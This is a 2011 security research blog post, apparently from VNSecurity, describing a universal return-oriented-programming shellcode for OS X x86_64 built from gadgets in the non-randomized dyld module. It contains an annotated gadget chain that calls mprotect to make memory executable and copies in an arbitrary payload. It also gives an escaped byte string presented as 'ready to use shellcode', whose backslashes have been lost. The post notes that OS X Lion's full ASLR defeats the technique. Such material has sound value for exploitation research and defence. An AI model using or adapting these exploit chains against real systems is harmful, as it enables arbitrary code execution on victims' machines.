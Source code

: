 ```yaml
---
title: Yet another universal OSX x86_64 dyld ROP shellcode
author: longld
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:4:{s:5:"bitly";s:0:"";s:9:"permalink";s:86:"http://www.vnsecurity.net/2011/07/yet-another-universal-osx-x86_64-dyld-rop-shellcode/";s:7:"tinyurl";s:26:"http://tinyurl.com/84vmfss";s:4:"isgd";s:19:"http://is.gd/QvH3MF";}'
tweetbackscheck:
  - 1408358971
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
kopa_newsmixlight_total_view:
  - 2
categories:
  - research
tags:
  - '2011'
  - dyld
  - OSX
  - return-oriented-programming
  - rop
  - shellcode
---
```

This technique was killed by OSX Lion 10.7 with full ASLR. @pa_kt has posted an [Universal ROP shellcode for OS X x64][1] with detail steps and explanation. If you don&#8217;t have a chance to read above post, the basic ideas are:

*   Copy stubcode to a writable area (.data section)
*   Make that area RWX
*   Jump to RWX area and execute stubcode
*   Stubcode will transfer normal shellcode to RWX area and execute it
*   All the ROP gadgets are from dyld module which is not randomized

In this post, we shows another OSX x86_64 dyld ROP shellcode which is more simple. We employ the same ideas with some minor differences in implementation:

*   Instead of using long gadgets with &#8220;leave&#8221;, we use direct, short gadgets from unintended code
*   Calling mprotect() via syscall
*   Short stubcode (7 bytes) using memcpy() to transfer payload

Here is the ROP shellcode with explanation:

<pre class="brush: plain; title: ; notranslate" title=""># store [target], stubcode
0x00007fff5fc0e7ee # pop rsi ; adc al 0x83
0xc353575e545a5b90 # =&gt; rsi = stubcode
0x00007fff5fc24cdc # pop rdi
0x00007fff5fc74f80 # =&gt; rdi
0x00007fff5fc24d26 # mov [rdi+0x80] rsi; stubcode =&gt; [target]
# load rdx, 0x7 (prot RWX)
0x00007fff5fc24cdc # pop rdi
0x00007fff5fc75001 # =&gt; rdi
0x00007fff5fc1ddc0 # lea rax, [rdi-0x1]
0x00007fff5fc219c3 # pop rbp ; add [rax] al ; add cl cl
0x00007fff5fc75000 # =&gt; rbp
0x00007fff5fc0e7ee # pop rsi ; adc al 0x83
0x0000000000000007 # =&gt; rsi
0x00007fff5fc14149 # mov edx esi ; add [rax] al ; add [rbp+0x39] cl =&gt; rdx = 0x7
# load rsi, 4096 (size)
0x00007fff5fc0e7ee # pop rsi ; adc al 0x83
0x0000000000001000 # =&gt; rsi = 4096
# load rax, mprotect_syscal
0x00007fff5fc24cdc # pop rdi
0x000000000200004b # =&gt; rdi
0x00007fff5fc1ddc0 # lea rax, [rdi-0x1] =&gt; rax = 0x200004a (mprotect syscall)
# load rdi, target
0x00007fff5fc24cdc # pop rdi
0x00007fff5fc75000 # =&gt; rdi = target
# syscall
0x00007fff5fc1c76d # mov r10, rcx; syscall  =&gt; mprotect(target, 4096, 7)
0x00007fff5fc75000 # jump to target, execute stubcode
# stubcode
# 5B                pop rbx     # rbx -&gt; memcpy()
# 5A                pop rdx     # rdx -&gt; size
# 54                push rsp    # src -&gt; &shellcode
# 5E                pop rsi     # src -&gt; &shellcode
# 57                push rdi    # jump to target when return from memcpy()
# 53                push rbx    # memcpy()
# C3                ret         # execute memcpy(target, &shellcode, size)
0x00007fff5fc234f0 # &memcpy()
0x0000000000000200 # shellcode size = 512
&lt;your shellcode here&gt;
</pre>

You can verify those gadgets and find more here: <http://goo.gl/p35vY>

Ready to use shellcode:

<pre class="brush: plain; title: ; notranslate" title="">"xeexe7xc0x5fxffx7fx00x00x90x5bx5ax54x5ex57x53xc3"
"xdcx4cxc2x5fxffx7fx00x00x80x4fxc7x5fxffx7fx00x00"
"x26x4dxc2x5fxffx7fx00x00xdcx4cxc2x5fxffx7fx00x00"
"x01x50xc7x5fxffx7fx00x00xc0xddxc1x5fxffx7fx00x00"
"xc3x19xc2x5fxffx7fx00x00x00x50xc7x5fxffx7fx00x00"
"xeexe7xc0x5fxffx7fx00x00x07x00x00x00x00x00x00x00"
"x49x41xc1x5fxffx7fx00x00xeexe7xc0x5fxffx7fx00x00"
"x00x10x00x00x00x00x00x00xdcx4cxc2x5fxffx7fx00x00"
"x4bx00x00x02x00x00x00x00xc0xddxc1x5fxffx7fx00x00"
"xdcx4cxc2x5fxffx7fx00x00x00x50xc7x5fxffx7fx00x00"
"x6dxc7xc1x5fxffx7fx00x00x00x50xc7x5fxffx7fx00x00"
"xf0x34xc2x5fxffx7fx00x00x00x02x00x00x00x00x00x00"
</pre>
 [1]: http://gdtr.wordpress.com/2011/07/23/universal-rop-shellcode-for-os-x-x64/